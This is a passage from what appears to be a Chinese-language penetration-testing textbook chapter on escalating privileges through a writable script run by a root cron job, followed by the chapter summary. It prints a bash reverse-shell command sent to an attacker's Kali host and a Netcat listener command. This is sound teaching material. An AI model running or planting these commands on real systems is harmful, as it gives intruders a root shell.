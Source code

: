     在这种情况下，我们可以确定该脚本具有读写权限。因此，我们可以使用自己的命令对文件进行修改或覆盖。

1.  现在，让我们在 **overwrite.sh** 脚本中添加一个 **bash** 命令，为我们提供一个反向 Shell。可以通过运行以下命令来实现：

    **echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" >> /usr/local/bin/overwrite.sh**

    该命令将附加一个 **bash** 命令，它将连接到我们在 Kali Linux 虚拟机上的反向监听器。请确保用相应的 IP 地址和端口号替换命令中的字段。

    运行上述命令后，**overwrite.sh** 脚本应包含以下截图中所示的命令：

    ![图 12.22 – overwrite.sh 脚本附加的命令    ](img/B17389_12_022.jpg)

    图 12.22 – overwrite.sh 脚本附加的命令

1.  一旦我们附加了 **bash** 命令，我们需要使用 Netcat 设置一个反向监听器。

    我们可以通过运行以下命令在 Kali 虚拟机上设置反向监听器：

    **nc -nvlp <PORT>**

    请确保指定您在 **overwrite.sh** 脚本中使用的端口。

    在将 **bash** 命令附加到 **overwrite.sh** 脚本后，我们需要等待几分钟，以便 cron 作业被触发，之后我们应该会在 Netcat 监听器上收到一个提权的反向 Shell，如下图所示：

![图 12.23 – 反向 Shell](img/B17389_12_023.jpg)

图 12.23 – 反向 Shell

通过这一操作，我们成功利用了配置错误的 cron 作业，提升了权限，并以 root 用户身份执行了反向 Shell 有效负载。

现在，您应该对如何枚举系统上运行的 cron 作业有了清晰的了解，并且掌握了如何通过多种技术手段利用这些作业提升权限。

# 总结

在本章中，我们首先研究了 cron 工具的工作原理和 crontab 文件的结构。然后，我们深入探讨了如何利用配置错误的 cron 路径。我们还探索了通过利用 cron 作业执行的脚本中的通配符来提升权限的过程。最后，我们通过研究如何通过 cron 文件覆盖提升权限结束了本章内容。

在下一章，我们将探讨如何利用 SUDO 和 SUID 二进制文件来提升我们的权限。
